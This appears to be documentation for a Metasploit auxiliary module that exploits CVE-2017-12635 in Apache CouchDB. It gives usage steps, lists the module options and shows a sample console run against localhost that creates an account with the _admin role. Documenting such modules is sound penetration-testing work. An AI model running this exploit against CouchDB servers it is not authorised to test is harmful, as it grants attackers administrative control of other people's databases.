 ## Vulnerable Application

  Apache CouchDB versions between 1.7.0 and 2.x before 2.1.1

## Verification Steps

  1. ```use auxiliary/admin/http/couchdb_2017-12635```
  2. ```set rhost HOSTNAME``` (required)
  3. ```set user USERNAME``` (required but random value generated)
  4. ```set password PASSWORD``` (required. Set to password)
  5. ```exploit```
  6.  Generates URL for connecting to CouchDB
  
## Options

  - rhost
  - user
  - password
  - uripath
  - rport
  - roles

## Scenarios

  ```
msf > use auxiliary/admin/http/couchdb_2017-12635
smsf auxiliary(admin/http/couchdb_2017-12635) > set rhost localhost
rhost => localhost
msf auxiliary(admin/http/couchdb_2017-12635) > show options

Module options (auxiliary/admin/http/couchdb_2017-12635):

   Name      Current Setting            Required  Description
   ----      ---------------            --------  -----------
   PASSWORD  password                   yes       CouchDB Password
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     localhost                  yes       CouchDB Host
   ROLES     _admin                     yes       CouchDB Roles
   RPORT     5984                       yes       CouchDB Port
   SSL       false                      no        Negotiate SSL/TLS for outgoing connections
   URIPATH   /_users/org.couchdb.user:  yes       The base path
   USER      ZuybcfiIOSlF               yes       CouchDB Username
   VHOST                                no        HTTP server virtual host

msf auxiliary(admin/http/couchdb_2017-12635) > exploit

[+] User ZuybcfiIOSlF created with password password. Connect to http://localhost:5984/_utils/ to login.
[*] Auxiliary module execution completed

```
